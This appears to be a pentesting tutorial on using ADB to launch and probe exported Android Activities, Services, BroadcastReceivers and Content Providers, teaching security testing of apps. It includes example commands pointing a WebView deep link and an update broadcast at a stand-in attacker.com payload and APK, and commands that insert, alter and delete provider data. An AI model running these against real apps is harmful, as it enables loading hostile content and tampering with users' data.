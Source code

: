 When analyzing or pentesting an Android application, it is often necessary to interact directly with its **components** (Activities, Services, BroadcastReceivers, Content Providers). ADB (`adb shell am ...` and `adb shell content ...`) allows you to do this without modifying the app or writing code. This is especially useful to test exported components or those with weak permission controls.

---

## Starting an Activity

An **Activity** is a single screen in an Android application. If it is **exported** or has an Intent filter, it can be launched externally.

#### Syntax
```bash
adb shell am start -n <package>/<activity>
```

#### Common Flags

- `-a` → Action (e.g., `android.intent.action.VIEW`)
- `-d` → Data URI (deep link or resource)
- `--es` → String extra
- `--ei` → Integer extra
- `--ez` → Boolean extra
- `--esn` → Null string extra


### Examples

1. Start the main Activity:
```bash
adb shell am start -n com.example.app/.MainActivity
```

2. Open a WebView Activity with a malicious deep link:
```bash
adb shell am start -n com.example.app/.WebViewActivity \
    -a android.intent.action.VIEW \
    -d "http://attacker.com/payload.html"
```

3. Pass custom extras:
```bash
adb shell am start -n com.example.app/.LoginActivity \
    --es "username" "admin" \
    --es "password" "1234"
```


---

## Starting a Service

A **Service** runs in the background without UI. If **exported**, it can be invoked by an attacker.

#### Syntax
```bash
adb shell am startservice -n <package>/<service>
```

#### Examples

1. Start a background service:
```bash
adb shell am startservice -n com.example.app/.SyncService
```

2. Start a service with an action and parameters:
```bash
adb shell am startservice -n com.example.app/.BackgroundService \
    -a com.example.app.ACTION_SYNC \
    --es "userId" "42"
```


---

## Sending a Broadcast Intent

A **BroadcastReceiver** listens for system-wide messages (like WiFi connection changes, incoming SMS, etc.). If exported, an attacker can send **forged broadcasts**.

#### Syntax
```bash
adb shell am broadcast -n <package>/<receiver> -a <action>
```

#### Examples

1. Trigger a custom app broadcast:
```bash
adb shell am broadcast -n com.example.app/.MyReceiver \
    -a com.example.app.ACTION_NOTIFY \
    --es "message" "Hello from ADB"
```

2. Simulate system broadcasts:
```bash
adb shell am broadcast -a android.intent.action.BOOT_COMPLETED
```

3. Send malicious extras:
```bash
adb shell am broadcast -n com.example.app/.UpdateReceiver \
    -a com.example.app.ACTION_UPDATE \
    --es "url" "http://attacker.com/update.apk"
```


---

## Querying an Exported Content Provider

A **Content Provider** manages structured app data (often backed by SQLite). If **exported**, it can be accessed externally.

#### Syntax
```bash
adb shell content query --uri content://<authority>/<path>
```

#### Examples

**Basic Query**
```bash
adb shell content query --uri content://com.example.app.provider/users
```

**Inserting Data**
```bash
adb shell content insert --uri content://com.example.app.provider/users \
    --bind "username:s:attacker" \
    --bind "password:s:1234"
```

**Updating Data**
```bash
adb shell content update --uri content://com.example.app.provider/users \
    --where "id=1" \
    --bind "username:s:evil"
```

**Deleting Data**
```bash
adb shell content delete --uri content://com.example.app.provider/users \
    --where "id=1"
```

**Discover Providers**
```bash
adb shell dumpsys package com.example.app | grep provider
```
